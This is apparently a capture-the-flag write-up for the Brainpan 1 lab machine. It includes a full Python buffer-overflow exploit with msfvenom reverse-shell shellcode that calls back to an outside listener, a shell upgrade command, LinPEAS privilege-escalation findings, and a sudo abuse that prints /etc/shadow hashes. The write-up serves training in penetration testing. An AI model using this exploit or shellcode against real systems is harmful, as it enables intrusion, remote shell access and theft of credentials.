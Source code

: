 # Brainpan 1
## Recon

The only thing I know about this challenge is there is a buffer overflow involved.

## Scanning

```bash
PORT      STATE SERVICE REASON         VERSION                                                                 
9999/tcp  open  abyss?  syn-ack ttl 61                                                                         
| fingerprint-strings:                                                                                         
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|  
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    syn-ack ttl 61 SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
```

## Enumeration

Port `9999` is some console. I did a few password guesses but nothing stuck. Port `10000` is running a webserver which has a slightly outdated infographic about secure coding. Dirbuster found a `/bin/` directory on the webserver. There's one executable file hosted there: `brainpan.exe`. This much be the service behind port 9999. I'll copy it away for exploit development in my lab. The box says to do the work in linux, but why? I already can do it repetedly in Windows. Maybe someday I'll learn the finer points of linux debuggers, but for now I'll do it the way I already know how.

## Exploit development.

I got the service running in my lab and verified the port with nmap. The output for port 9999 matched the initial scan exactly!

The buffer overflow script I wrote only identified `\x00` as a badchar. Additionally the exploit is failing.

The exploit was failing because of a bug in the script. Working now.

I swapped out some variables and made the exploit ready for brainpan. Here is the final result:

```python3
#!/usr/bin/env python3

import socket

ip = "10.10.109.180"
port = 9999

prefix = " "
offset = 523
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
# msfvenom -p windows/shell_reverse_tcp LHOST=10.2.73.217 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
payload = "\xda\xc4\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x52\xbb\xad\xfc\xa8\x8e\x31\x58\x17\x83\xe8\xfc\x03\xf5\xef\x4a\x7b\xf9\xf8\x09\x84\x01\xf9\x6d\x0c\xe4\xc8\xad\x6a\x6d\x7a\x1e\xf8\x23\x77\xd5\xac\xd7\x0c\x9b\x78\xd8\xa5\x16\x5f\xd7\x36\x0a\xa3\x76\xb5\x51\xf0\x58\x84\x99\x05\x99\xc1\xc4\xe4\xcb\x9a\x83\x5b\xfb\xaf\xde\x67\x70\xe3\xcf\xef\x65\xb4\xee\xde\x38\xce\xa8\xc0\xbb\x03\xc1\x48\xa3\x40\xec\x03\x58\xb2\x9a\x95\x88\x8a\x63\x39\xf5\x22\x96\x43\x32\x84\x49\x36\x4a\xf6\xf4\x41\x89\x84\x22\xc7\x09\x2e\xa0\x7f\xf5\xce\x65\x19\x7e\xdc\xc2\x6d\xd8\xc1\xd5\xa2\x53\xfd\x5e\x45\xb3\x77\x24\x62\x17\xd3\xfe\x0b\x0e\xb9\x51\x33\x50\x62\x0d\x91\x1b\x8f\x5a\xa8\x46\xd8\xaf\x81\x78\x18\xb8\x92\x0b\x2a\x67\x09\x83\x06\xe0\x97\x54\x68\xdb\x60\xca\x97\xe4\x90\xc3\x53\xb0\xc0\x7b\x75\xb9\x8a\x7b\x7a\x6c\x1c\x2b\xd4\xdf\xdd\x9b\x94\x8f\xb5\xf1\x1a\xef\xa6\xfa\xf0\x98\x4d\x01\x93\xac\x93\x40\xba\xd9\x91\x52\x2d\x46\x1f\xb4\x27\x66\x49\x6f\xd0\x1f\xd0\xfb\x41\xdf\xce\x86\x42\x6b\xfd\x77\x0c\x9c\x88\x6b\xf9\x6c\xc7\xd1\xac\x73\xfd\x7d\x32\xe1\x9a\x7d\x3d\x1a\x35\x2a\x6a\xec\x4c\xbe\x86\x57\xe7\xdc\x5a\x01\xc0\x64\x81\xf2\xcf\x65\x44\x4e\xf4\x75\x90\x4f\xb0\x21\x4c\x06\x6e\x9f\x2a\xf0\xc0\x49\xe5\xaf\x8a\x1d\x70\x9c\x0c\x5b\x7d\xc9\xfa\x83\xcc\xa4\xba\xbc\xe1\x20\x4b\xc5\x1f\xd1\xb4\x1c\xa4\xf1\x56\xb4\xd1\x99\xce\x5d\x58\xc4\xf0\x88\x9f\xf1\x72\x38\x60\x06\x6a\x49\x65\x42\x2c\xa2\x17\xdb\xd9\xc4\x84\xdc\xcb;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
```

I get a shell. But not a very good one. I was able to get a somewhat normal shell by executing `/bin/bash` and the python pty.spawn trick.

```python3
python3 -c "import pty; pty.spawn('/bin/bash');"
```

The shell was still pretty unstable and unpredictable, so I ran linpeas and downloaded the output for review.

### LinPEAS findings

> OS: Linux version 3.5.0-25-generic (buildd@lamiak) (gcc
 version 4.7.2 (Ubuntu/Linaro 4.7.2-2ubuntu1) ) #39-Ubuntu SMP Mon Feb 25
 19:02:34 UTC 2013

> Sudo 1.8.5p2

> PROCESSOR_ARCHITECTURE=x86

>  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
>  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
>  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
>  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
>  [5] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
>  [6] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346

The output is messy, but it appears cron is running and the standard crontab file has an entry that starts chksrv.sh (the script that starts brainpan.exe).

> # m h  dom mon dow   command
> * * * * * /home/puck/checksrv.sh


> User puck may run the following commands on this host:
>    (root) NOPASSWD: /home/anansi/bin/anansi_util

> ╔══════════╣ .sh files in path
> ╚ https://book.hacktricks.xyz/linux-unix/privilege-esca
> lation#script-binaries-in-path
> /usr/bin/gettext.sh

I was investigating the crontab file to see if I could gain execution somehow. I don't have write access to crontab, or the script it calls...but wait. The brainpan executable was in my users's home directory. Maybe have write permissions to it.

I started playing with `anansi_util` since I was able to run it as sudo. Using GTFO bins I was able to find a few different breakout methods for the manual command.

I was able to read `/etc/shadow`

```bash
Z:\home\puck>sudo /home/anansi/bin/anansi_util manual /etc/shado[60/1843]
/usr/bin/man: manual-/etc/shadow: No such file or directory              
/usr/bin/man: manual_/etc/shadow: No such file or directory              
No manual entry for manual                                               
<standard input>:1: warning [p 1, 0.0i]: cannot adjust line              
<standard input>:1: warning [p 1, 0.2i]: cannot adjust line              
<standard input>:22: warning [p 1, 2.2i]: cannot adjust line             
<standard input>:23: warning [p 1, 2.3i]: cannot adjust line             
<standard input>:23: warning [p 1, 2.5i]: cannot adjust line             
<standard input>:23: warning [p 1, 2.7i]: cannot adjust line
<standard input>:24: warning [p 1, 3.0i]: cannot adjust line
<standard input>:24: warning [p 1, 3.2i]: can't break line
root:$6$m20VT7lw$172.XYFP3mb9Fbp/IgxPQJJKDgdO‐
hg34jZD5sxVMIx3dKq.DBwv.mw3HgCmRd0QcN4TCzaUtmx4C5DvZa‐
Dioh0:15768:0:99999:7:::              daemon:*:15768:0:99999:7:::
bin:*:15768:0:99999:7:::                 sys:*:15768:0:99999:7:::
sync:*:15768:0:99999:7:::              games:*:15768:0:99999:7:::
man:*:15768:0:99999:7:::                  lp:*:15768:0:99999:7:::
mail:*:15768:0:99999:7:::               news:*:15768:0:99999:7:::
uucp:*:15768:0:99999:7:::   proxy:*:15768:0:99999:7:::    www‐da‐
ta:*:15768:0:99999:7:::               backup:*:15768:0:99999:7:::
list:*:15768:0:99999:7:::                irc:*:15768:0:99999:7:::
gnats:*:15768:0:99999:7:::    nobody:*:15768:0:99999:7:::   libu‐
uid:!:15768:0:99999:7:::   syslog:*:15768:0:99999:7:::   message‐
bus:*:15768:0:99999:7:::         reynard:$6$h54J.qxd$yL5md3J4dON‐
wNl.36iA.mkcabQqRMmeZ0VFKxIVpX‐
eNpfK.mvmYpYsx8W0Xq02zH8bqo2K.mkQzz55U2H5kUh1:15768:0:99999:7:::
anansi:$6$hblZftkV$vmZoctRs1nmcdQCk5gjlmcLUb18xv‐
Ja3efaU6cpw9hoOXC/kHupYqQ2qz5O.ekVE.SwMfvRnf.QcB1ly‐
DGIPE1:15768:0:99999:7:::    puck:$6$A/mZxJX0$Zmgb3T6SAq.FxO1gEm‐
bIcBF9Oi7q2eAi0TMMqO‐
hg0pjdgDjBr0p2NBpIRqs4OIEZB4op6ueK888lhO7gc.27g1:15768:0:99999:7:::
```


